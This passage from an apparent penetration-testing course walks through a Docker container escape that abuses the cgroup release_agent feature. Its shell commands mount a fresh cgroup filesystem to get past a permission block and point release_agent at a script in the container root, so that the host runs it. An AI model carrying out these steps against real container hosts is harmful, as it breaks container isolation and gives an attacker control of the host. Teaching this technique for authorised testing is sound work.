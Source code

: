 > Listing 53 - Enable notify_on_release

Now when the last process in the _escapeme_ cgroup terminates, the kernel will execute whatever command is in the **release_agent** file. The **release_agent** is in the root of the cgroup controller rather than in the specific cgroup. Since we want to execute a command we control, we'll use the _host_path_ variable we created earlier to execute a script in the root of the container. We'll call our script **cmd**.

```
victim_release_agent:~# echo $host_path/cmd >/sys/fs/cgroup/devices/release_agent
-ash: can't create /sys/fs/cgroup/devices/release_agent: Permission denied
```

> Listing 54 - Setting the release_agent - Error

Unfortunately, we receive an error. The kernel must have some additional protections that prevents us from writing to the **release_agent** file. Not all systems have this protection, but our target does. However, there are ways to circumvent this.

If we mount a new cgroup file system to a directory we control, we might be able to bypass whatever protection the system is enforcing. Let's start by deleting the cgroup we created. We can't use **rm -rf** here since **rm** will first delete the files before it deletes the directory and the files are not allowed to be deleted. Instead, we need to use **rmdir**, which will just delete the directory.

Once we've cleaned our work, we'll create a new directory in the **/tmp** directory. Next, we'll use **mount** to mount a cgroup file system to this directory. We also need to specify which cgroup controller to use with **-o**.

```
victim_release_agent:~# rmdir /sys/fs/cgroup/devices/escapeme

victim_release_agent:~# mkdir /tmp/cgrp

victim_release_agent:~# mount -t cgroup -o devices cgroup /tmp/cgrp
```

> Listing 55 - Mounting New cgroup Filesystem

Now we can create a new cgroup again and enable the notification. This time, we'll name the cgroup **x** and use the **/tmp/cgrp** directory instead of the one in the **sys** file system.

```
victim_release_agent:~# mkdir /tmp/cgrp/x

victim_release_agent:~# echo 1 > /tmp/cgrp/x/notify_on_release
```

> Listing 56 - Enabling the cgroup notification

With the notifications enabled, we can specify the command to execute in the **release_agent** file again. Once again, we'll use the **cmd** file, which we'll create later in the container root.

```
victim_release_agent:~# echo "$host_path/cmd" > /tmp/cgrp/release_agent

victim_release_agent:~# cat /tmp/cgrp/release_agent
/var/lib/docker/overlay2/236bf7ed500f09c2cda6b5c672d085f871c7734ba01ed75ee817775df232dc88/diff/cmd
```

